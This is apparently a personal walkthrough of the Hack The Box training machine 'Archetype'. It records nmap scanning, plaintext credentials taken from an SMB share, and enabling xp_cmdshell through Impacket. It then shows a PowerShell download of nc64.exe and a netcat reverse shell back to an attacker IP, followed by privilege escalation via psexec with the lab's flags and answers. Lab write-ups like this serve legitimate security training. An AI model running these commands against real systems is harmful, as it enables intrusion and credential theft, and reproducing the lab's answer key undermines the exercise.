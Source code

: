 # Archetype

> IP: [10.129.233.188]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.233.188 -oN init_scan
      1. 135/tcp  -> msrpc        -> Microsoft Windows RPC
      2. 139/tcp  -> netbios-ssn  -> Microsoft Windows netbios-ssn
      3. 445/tcp  -> microsoft-ds -> Windows Server 2019 Standard 17763 microsoft-ds
      4. 1433/tcp -> ms-sql-s     -> Microsoft SQL Server 2017 14.00.1000.00; RTM

        ```text
            |_ssl-date: 2024-02-07T19:31:36+00:00; 0s from scanner time.
            | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
            | Not valid before: 2024-02-07T19:30:11
            |_Not valid after:  2054-02-07T19:30:11
            | ms-sql-ntlm-info: 
            |   10.129.233.188:1433: 
            |     Target_Name: ARCHETYPE
            |     NetBIOS_Domain_Name: ARCHETYPE
            |     NetBIOS_Computer_Name: ARCHETYPE
            |     DNS_Domain_Name: Archetype
            |     DNS_Computer_Name: Archetype
            |_    Product_Version: 10.0.17763
            | ms-sql-info: 
            |   10.129.233.188:1433: 
            |     Version: 
            |       name: Microsoft SQL Server 2017 RTM
            |       number: 14.00.1000.00
            |       Product: Microsoft SQL Server 2017
            |       Service pack level: RTM
            |       Post-SP patches applied: false
            |_    TCP port: 1433
            Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
        ```

    5. SMB

        ```text
            Host script results:
            | smb2-security-mode: 
            |   3:1:1: 
            |_    Message signing enabled but not required
            | smb-security-mode: 
            |   account_used: guest
            |   authentication_level: user
            |   challenge_response: supported
            |_  message_signing: disabled (dangerous, but default)
            | smb-os-discovery: 
            |   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
            |   Computer name: Archetype
            |   NetBIOS computer name: ARCHETYPE\x00
            |   Workgroup: WORKGROUP\x00
            |_  System time: 2024-02-07T11:31:28-08:00
            | smb2-time: 
            |   date: 2024-02-07T19:31:25
            |_  start_date: N/A
            |_clock-skew: mean: 1h36m00s, deviation: 3h34m41s, median: 0s
        ```

3. SMB
   1. Lets list the smb shares
      1. > smbclient -L 10.129.233.188

        ```text
            ADMIN$          Disk      Remote Admin
            backups         Disk      
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
        ```

   2. Now lets connect to that backups share
      1. > smbclient \\\\10.129.233.188\\backups 
         1. > ls
            1. prod.dtsConfig
            2. This looks to be a production config file
            3. Looking through we see
               1. UN: ARCHETYPE\sql_svc
               2. PW: M3g4c0rp123
4. IMPACKET
   1. Doing some googling we see that Impacket is a collection of python classes to work with networking
   2. Looking through we see MICROSOFT SQL SERVER
      1. This uses: `mssqlclient.py`
   3. CONNECT
      1. > impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.233.188
         1. Couldn't connect
      2. > impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.233.188 -windows-auth
         1. SUCCESS! 
      3. MICROSOFT SQL SERVER
         1. Looking up procedures in mssql we see that `xp_cmdshell` can spawn a shell
   4. XP_CMDSHELL
      1. > xp_cmdshell
         1. ERROR: Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server.
      2. > help
         1. This shows us that we need to run "enable_xp_cmdshel"
      3. > enable_xp_cmdshel
      4. > RECONFIGURE
      5. > xp_cmdshell "whoami"
         1. RESPONSE: archetype\sql_svc
         2. SUCESS! We can now run commands or execute powershell commands
5. EXPLOIT
   1. First we need to get a revshell
      1. To do so we need to upload the netcat 64 binary
         1. Google nc64.exe and we download a copy
      2. Now we have the binary we need to create a simple server to host it
         1. > python3 -m http.server
      3. Now we need to craft a command to have the windows machine use powershell to "wget" the binary from our host machine
         1. STEPS
            1. Change dir to our sql_svc user
            2. Wget our nc64.exe binary
         2. > powershell -c cd C:\Users\sql_svc\Downloads; wget http://MY_IP_ADDR:80/nc64.exe -outfile nc64.exe
      4. Now we need to run our netcat binary
         1. > powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe MY_IP_ADDR 1234
            1. SUCCESS! We now have a reverse shell
      5. USERFLAG
         1. > cd Desktop
         2. > type user.txt
            1. `3e7b102e78218e935bf3f4951fec21a3`
6. ENUMERATION
   1. Now lets upload WINPeas
      1. > wget http://MY_IP_ADDR:8000/winPEASx64.exe -outfile winPEASx64.exe
   2. RUN WINPEAS
      1. File: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
      2. Lets go take a look at this file
         1. > cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\
         2. > type ConsoleHost_history.txt
            1. net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
            2. We see the admin username and password
7. ESCALATION
   1. Now that we have an admin user's credentials we can go back and use the Impacket - psexec tool to remote in
   2. IMPACKET
      1. > impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.129.233.188
         1. > whoami
            1. nt authority\system
   3. Get FLAG
      1. > cd C:\Users\Administrator
         1. Looking around we find the root.txt in the admin's desktop
      2. > type root.txt
         1. `b91ccec3305e98240082d4474b848528`

## QUESTIONS

1. Which TCP port is hosting a database server?
   1. `1433`
2. What is the name of the non-Administrative share available over SMB?
   1. `backups`
3. What is the password identified in the file on the SMB share?
   1. `M3g4c0rp123`
4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?
   1. `mssqlclient.py`
5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?
   1. `xp_cmdshell`
6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?
   1. `winpeas`
7. What file contains the administrator's password?
   1. `ConsoleHost_history.txt`
8. Submit user flag
   1. `3e7b102e78218e935bf3f4951fec21a3`
9. Submit root flag
   1. `b91ccec3305e98240082d4474b848528`
